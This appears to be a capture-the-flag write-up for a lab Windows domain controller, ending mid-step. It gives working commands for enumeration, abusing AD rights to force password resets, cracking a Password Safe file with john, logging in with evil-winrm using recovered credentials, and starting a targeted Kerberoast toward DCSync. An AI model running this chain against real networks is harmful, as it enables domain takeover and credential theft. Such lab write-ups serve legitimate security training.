### Port Scanning - Service & Version Enumeration

```python
# Nmap 7.94SVN scan initiated Sat Apr 19 08:28:17 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.42
Nmap scan report for 10.10.11.42
Host is up, received reset ttl 127 (0.28s latency).
Scanned at 2025-04-19 08:28:18 EDT for 215s
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-19 19:30:36Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
57716/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
61987/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
61992/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
61999/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62004/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62017/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35406/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 11352/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 52617/udp): CLEAN (Timeout)
|   Check 4 (port 30800/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-04-19T19:31:39
|_  start_date: N/A
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 19 08:31:53 2025 -- 1 IP address (1 host up) scanned in 216.88 seconds
```

### Provided Credentials: Olivia/ichliebedich

i started my initial enumeration from smb and use `--users` to enumerate users from the system using netexec

```python
netexec smb 10.10.11.42 -u Olivia -p ichliebedich --users
```



let’s save the user names in the users.txt, continue our enumeration i checked if we have winrm access or not using

```python
netexec winrm 10.10.11.42 -u Olivia -p ichliebedich
```



let’s login as Olivia using evil-winrm

```python
evil-winrm -i 10.10.11.42 -u Olivia -p ichliebedich
```



let’s check if we are member of any special groups using `net user olivia` 



nothing here!, let’s check the bloodhound i’ll run bloodhound using `bloodhound-python` tool from my kali 

```python
bloodhound-python -c all -u 'olivia' -p 'ichliebedich' -d administrator.htb -ns 10.10.11.42
```



load the information to bloodhound, first start neo4j database using `sudo neo4j console` 



start bloodhound, login with credentials and load the json files to bloodhound



in search bar search for olivia and then right click on user avatar and then click on mark user as owned, now check for any permissions in `Node Info` 



now if we the node info we found that user has 1 Outbound boject controller permissions clicking on that we found that user olivia has `GenericAll` permissions to Michael user

### From Bloodhoun Help

> ***Force Change Password***
Use samba's net tool to change the user's password. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line. The new password will be prompted if omitted from the command line.
> 
> 
> `net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"`
> 

so we can change the michael’s password let’s use the net rpc command from our kali linux to change the michael’s password

```python
net rpc password "michael" "hacker@123" -U "administrator.htb/olivia"%"ichliebedich" -S 10.10.11.42
```


now we successfully changed the michael user’s pasword checking the node info of that user we found that michael user has ForceChangePassword permission on benjamin user



let’s change the benjamin user’s password using rpcclient

```python
rpcclient -U "administrator.htb/michael" 10.10.11.42
```

login as michael, provide password when prompted (provide newly set password in this case hacker@123)

after login run below command to change the benjamin user’s password

```python
rpcclient $> setuserinfo benjamin 23 hacker@123
```



now we check group membership of the benjamin user using net user benjamin from olivia’s winrm shell

```python
net user benjamin
```



Oh great, interesting group **Share Moderators** looks like benjamin has access to the shares, let’s try smbclient to enumerate any interesting share

first i run netexec to check what permissions do we have on shares

```python
netexec smb 10.10.11.42 -u benjamin -p hacker@123 --shares
```



i checked login to NETLOGON, but it was empty also nothing interesting in SYSVOL

```python
smbclient //10.10.11.42/NETLOGON -U administrator.htb/benjamin
```



thinking about share, does it also include FTP, let’s try to connect with ftp with benjamin:hacker@123

```python
ftp 10.10.11.42
```



let’s download the `Backup.psafe3` 

checking the file type of the Backup.psafe3



it’s a password safe v3 database, searching for this we found that we can access the file using tool called `pwsafe` 

```python
pwsafe -r Backup.psafe3
```

it prompted to enter the master password, that we don’t have i tried olivia’s password and bejamin as password but not worked it’s time to call john!!

*2john 😄 john has all tools to get hash of anything

run `pwsafe2john Backup.psafe3 > psafe.pass` 

and crack it using 

```python
john pwsafe.pass --wordlist=/usr/share/wordlists/rockyou.txt
```

within a minute we found the master password for the DB file



let’s use the password to login to password safe



we found some credentials:

```python
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

checking for all users group membership using net user command we found that emily is the user of `Remote Management Users` so we can use evil-winrm to login as emily



let’s use evil-winrm to login as emily

```python
evil-winrm -i 10.10.11.42 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```



we got our user.txt now checking in bloodhound  we found that user emily has the `GenericWrite` permissions on the Ethan user



using bloodhound help we found that we can use targeted kerberoast attack, by setting the own SPN on the ethan user and get TGT to crack the hash

and checking the ethan’s permissions we found that ethan has DCSync rights on the Domain



so we first use targeted kerberoast attack to get ethan’s password and can dump the creds from domain using secretsdump

```python
python targetedKerberoast.py -v -d administrator.htb -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb --dc-ip 10.10.11.42
```



we got KRB_AP_ERR_SKEW(Clock Skew too great) it’s because of the time difference between our kali machine and target machine to fix this issue run below command

```python
sudo rdate -n 10.10.11.42
```


and then run the command agin

